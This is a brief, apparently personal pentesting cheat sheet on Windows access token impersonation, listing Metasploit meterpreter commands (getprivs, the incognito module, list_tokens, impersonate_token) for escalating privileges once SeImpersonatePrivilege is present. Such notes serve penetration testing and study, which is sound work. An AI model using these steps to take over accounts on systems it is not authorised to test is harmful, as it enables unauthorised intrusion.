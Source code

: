 # Access Token Impersination

---

is an form of priv esc in windows environment.

#### Metasploit

once we have a meterpreter session we can make getrprivs

getprivs

if "SeImpersonatePrivilege" is there, we can exploit it. 

load incognito

list_tokens -u --> shows available tokens 

impersonate_token "<delegation token>" 

getuid --> gained privs of <delegation token>


